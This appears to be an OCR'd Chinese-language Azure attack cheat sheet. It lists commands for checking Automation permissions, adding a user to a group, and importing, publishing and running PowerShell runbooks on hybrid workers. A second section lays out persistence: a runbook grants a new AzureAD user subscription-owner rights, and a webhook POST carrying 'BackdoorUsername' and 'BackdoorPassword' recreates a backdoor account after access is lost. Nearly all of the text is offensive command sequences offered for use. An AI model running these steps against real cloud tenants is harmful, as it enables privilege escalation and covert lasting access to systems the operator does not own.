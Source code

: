   #### 创建Runbook
	检查自动化用户权限
	az extension add --upgrade -n automation
	az automation account list # if it doesn't return anything the user is not a part of an Automation group
	az ad signed-in-user list-owned-objects

	如果用户不属于“自动化”组
	将他添加到自定义组，例如：“自动化管理员”
	Add-AzureADGroupMember -ObjectId <OBJID> -RefObjectId <REFOBJID> -Verbose

	获取自动化账户上用户的角色
	Contributor 或更高级别 = 可以创建和执行 Runbook
	Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

	列出混合工作人员
	Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>

	创建一个Powershell Runbook
	PS C:\Tools> Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

	发布Runbook
	Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

	启动Runbook
	Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
  #### 通过自动化帐户持久化
	创建一个新的自动化帐户
	“创建 Azure 运行方式帐户”：是
	导入一个新的 Runbook，创建一个拥有订阅所有者权限的 AzureAD 用户*
	此博客的示例运行手册位于此处 – https://github.com/NetSPI/MicroBurst
	发布运行手册
	将 Webhook 添加到 Runbook
	将 AzureAD 模块添加到自动化帐户
	更新 Azure 自动化模块
	为自动化帐户分配“用户管理员”和“订阅所有者”权限
	最终失去访问权限……
	使用 post 请求触发 webhook 以创建新用户
	$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
	$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
	$body = ConvertTo-Json -InputObject $AccountInfo
	$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
